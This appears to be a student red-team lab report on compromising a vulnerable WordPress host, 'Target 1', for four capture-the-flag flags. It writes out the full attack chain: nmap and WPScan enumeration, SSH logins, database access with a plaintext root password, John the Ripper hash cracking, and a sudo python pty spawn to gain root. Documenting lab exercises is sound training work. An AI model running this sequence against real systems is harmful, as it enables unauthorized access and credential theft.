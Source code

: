 ﻿Joaquin Serrano

# Red Team: Summary of Operations

Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

Exposed Services:
- Kali Linux Command
- Ping Scan only: $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 

Nmap scan results for each machine reveal the below services and OS details:
* Find the version of the service running on port 192.168.1.110
Kali Linux Command: 
* $ nmap -sV 192.168.1.110
  

This scan identifies the services below as potential points of entry:
* Target 1-Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn
Critical Vulnerabilities
The following vulnerabilities were identified on each target:
* Target 1
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)
Exploitation
* dirb returns the enumerated directories found within the target URL
  

  

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


* Target 1
   * flag1.txt: b9bbcb33e11b80be759c4e844


      * Exploit Used
         * WPScan to enumerate users of the Target 1 WordPress site
         * SSH using Michael’s credentials, Flag 1 was found
         * Flag 1 was found in /var/www in the HTML folder


Kali Linux Command: 
* $ wpscan -u http://192.168.1.110/wordpress -eu
  

  

  



   * flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


   * Exploit used:
         * Continuation of exploit from Target 1. 
         * SSH using Michael’s credentials, Flag 2 was found. 
         * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 
Kali Linux Commands: 
      * $ ssh michael@192.168.1.110
      * pwd
      * cd var/www
      * ls -l
      * cat flag2.txt
  

  

* Flag 3: afc01ab56b50591e7dccf93122770cd2


* Exploit used: 
   * Continuation of Exploit from Target 1. 
* Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database
  





Kali Linux Command: $ mysql -u root -p
* Password: R@v3nSecurity  Host: 127.0.0.1
* Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
* show databases;
* use wordpress; 
* show tables;
* Select * from wp_users; 




  



  



  

  

  

* Flag 4: 715dea6c055b9fe3337544932f2941ce
* Exploit used:
   * Unsalted password hash and privilege escalation with Python
* Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   * Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   * Copied the username and password hash for Steven. Saved the file and named it  hash.txt


* Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;
  

  

* Utilized John the Ripper to crack the password hash from the hash.txt file.
* Kali Linux command: 
   * $ john hash
  

* Steven Password cracked: pink84
  

* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
  

* Use python to gain root privileges
  

* cd root
* ls
* cat flag4.txt
* Captured Flag4
